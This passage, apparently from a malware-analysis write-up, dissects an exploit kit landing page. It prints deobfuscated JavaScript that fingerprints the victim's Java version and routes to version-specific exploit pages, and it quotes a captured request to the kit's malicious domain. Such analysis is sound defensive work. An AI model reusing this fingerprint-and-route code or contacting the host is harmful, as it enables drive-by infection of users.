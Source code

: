 As you can clearly see from the code above, we're checking for the version of Java using `window.PluginDetect.getVersion("Java")`.  The resulting version will be returned in the format of "A,B,C,D", as explained [here](http://www.pinlady.net/PluginDetect/guide/). Here's the snippet of that portion of the deobfuscated code:

```js
var FHQxrYhsp = window.PluginDetect.getVersion("Java");
    if (typeof FHQxrYhsp == 'string') {
        FHQxrYhsp = FHQxrYhsp.split(",");
        if (FHQxrYhsp[3].length == 1) {
            FHQxrYhsp = "" + FHQxrYhsp[1] + "0" + FHQxrYhsp[3];
        } else {
            FHQxrYhsp = "" + FHQxrYhsp[1] + FHQxrYhsp[3];
```

As mentioned, the detected version of Java will be stored as a string in comma delimited format in the `FHQxrYhsp` variable. The next step in the snippet above is to check if the stored value in `FHQxrYhsp` is in fact a string. If it is, it will split the string by the comma delimiter, which will result in a Java version made up of all numerical digits, such as `707`, for example. Once the version is determined, it is checked against version ranges and returned to the correct page that will serve up the exploit for the particular Java version. Here's the code for that part:

```js
} if ((FHQxrYhsp >= 500 && FHQxrYhsp <= 632) || (FHQxrYhsp >= 700 && FHQxrYhsp <= 709)) {
        return "JSwkYux.html";
    };
    if ((FHQxrYhsp >= 633 && FHQxrYhsp <= 645)) {
        return "ySnWHR.html";
    };
    if ((FHQxrYhsp >= 710 && FHQxrYhsp < 725)) {
        return "XdMGGiCPB.html";
    };
    return "uDLhux.html";
```

The Java version comparisons should be obvious here. For example, the first comparison reads "if greater than or equal to 5.0.0 and less than or equal to 6.3.2, or greater than or equal to 7.0.0 and less than or equal to 7.0.9, serve JSwkYux.html", and so forth. If non of those versions check out, the default served HTML file will be `uDLhux.html`.

If we go back to the network traffic, one of the requests is the following:

```
GET /GMCs8O-0t1mL0W0av-02t7-R0Haa80/PWCC0Xp/Yl0-0bBp/0aqK/I01y9T/0tHt_X0vxAc/0Ws1E-14LN81-3AP511P_K10uk/b20JbN/I0q9d_G0nN/Bn0_2Ez70jkxl_0djEQ_0tBaG0/mFs30bAB/k0LmHc11-PDt0G3/eT0zi9_u128R/R0t/cKd0b_7xj0-Bem413X/Ap0Pf8-n0Fma_y0v_SK11/7PJJ0_xLXi06g_kV0n/S0H0p/x1L-0WjS80sA_c90GFk_30I6p/A050/RL0P_Poo0S/BL60_DzoH0lN_250r/iq80fhfB0x-WRG0GT5e/JSwkYux.html HTTP/1.1
Accept: image/gif, image/jpeg, image/pjpeg, image/pjpeg, application/x-shockwave-flash, */*
Referer: http://pphnq.downsdlowerscars.com/GMCs8O-0t1mL0W0av-02t7-R0Haa80/PWCC0Xp/Yl0-0bBp/0aqK/I01y9T/0tHt_X0vxAc/0Ws1E-14LN81-3AP511P_K10uk/b20JbN/I0q9d_G0nN/Bn0_2Ez70jkxl_0djEQ_0tBaG0/mFs30bAB/k0LmHc11-PDt0G3/eT0zi9_u128R/R0t/cKd0b_7xj0-Bem413X/Ap0Pf8-n0Fma_y0v_SK11/7PJJ0_xLXi06g_kV0n/S0H0p/x1L-0WjS80sA_c90GFk_30I6p/A050/RL0P_Poo0S/BL60_DzoH0lN_250r/iq80fhfB0x-WRG0GT5e/
Accept-Language: en-us
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Accept-Encoding: gzip, deflate
Host: pphnq.downsdlowerscars.com
Connection: Keep-Alive
```
